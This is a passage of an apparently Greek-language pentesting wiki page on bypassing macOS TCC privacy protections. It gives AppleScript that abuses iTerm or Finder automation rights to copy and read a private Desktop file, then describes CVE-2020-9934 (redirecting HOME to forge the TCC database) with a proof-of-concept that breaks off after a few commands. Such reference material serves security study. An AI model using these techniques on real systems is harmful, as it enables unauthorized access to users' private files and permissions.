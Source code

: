 {% content-ref url="macos-apple-scripts.md" %}
[macos-apple-scripts.md](macos-apple-scripts.md)
{% endcontent-ref %}

Για παράδειγμα, αν μια εφαρμογή έχει **Άδεια Αυτοματισμού πάνω από το `iTerm`**, για παράδειγμα σε αυτό το παράδειγμα το **`Terminal`** έχει πρόσβαση στο iTerm:

<figure><img src="../../../../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

#### Πάνω στο iTerm

Το Terminal, που δεν έχει Πλήρη Πρόσβαση Δίσκου, μπορεί να καλέσει το iTerm, που την έχει, και να το χρησιμοποιήσει για να εκτελέσει ενέργειες:

{% code title="iterm.script" %}
```applescript
tell application "iTerm"
activate
tell current window
create tab with default profile
end tell
tell current session of current window
write text "cp ~/Desktop/private.txt /tmp"
end tell
end tell
```
{% endcode %}
```bash
osascript iterm.script
```
#### Πάνω από το Finder

Ή αν μια εφαρμογή έχει πρόσβαση πάνω από το Finder, μπορεί να εκτελέσει ένα σενάριο όπως το παρακάτω:
```applescript
set a_user to do shell script "logname"
tell application "Finder"
set desc to path to home folder
set copyFile to duplicate (item "private.txt" of folder "Desktop" of folder a_user of item "Users" of disk of home) to folder desc with replacing
set t to paragraphs of (do shell script "cat " & POSIX path of (copyFile as alias)) as text
end tell
do shell script "rm " & POSIX path of (copyFile as alias)
```
## Με βάση τη συμπεριφορά της εφαρμογής

### CVE-2020–9934 - TCC <a href="#c19b" id="c19b"></a>

Το **δαίμονα tccd** του χρήστη χρησιμοποιεί τη μεταβλητή περιβάλλοντος **`HOME`** για να έχει πρόσβαση στη βάση δεδομένων χρηστών TCC από: **`$HOME/Library/Application Support/com.apple.TCC/TCC.db`**

Σύμφωνα με [αυτήν τη δημοσίευση στο Stack Exchange](https://stackoverflow.com/questions/135688/setting-environment-variables-on-os-x/3756686#3756686) και επειδή το δαίμονα TCC τρέχει μέσω `launchd` εντός του τρέχοντος τομέα χρήστη, είναι δυνατό να **ελέγχεται όλες τις μεταβλητές περιβάλλοντος** που περνούν σε αυτόν.\
Έτσι, ένας **επιτιθέμενος θα μπορούσε να ορίσει τη μεταβλητή περιβάλλοντος `$HOME`** στο **`launchctl`** ώστε να δείχνει σε ένα **ελεγχόμενο κατάλογο**, **επανεκκινήσει** το **δαίμονα TCC**, και στη συνέχεια **να τροποποιήσει απευθείας τη βάση δεδομένων TCC** για να δώσει στον εαυτό του **κάθε δικαίωμα TCC που είναι διαθέσιμο** χωρίς ποτέ να ζητήσει άδεια από τον τελικό χρήστη.\
PoC:
```bash
# reset database just in case (no cheating!)
$> tccutil reset All
# mimic TCC's directory structure from ~/Library
$> mkdir -p "/tmp/tccbypass/Library/Application Support/com.apple.TCC"
# cd into the new directory
```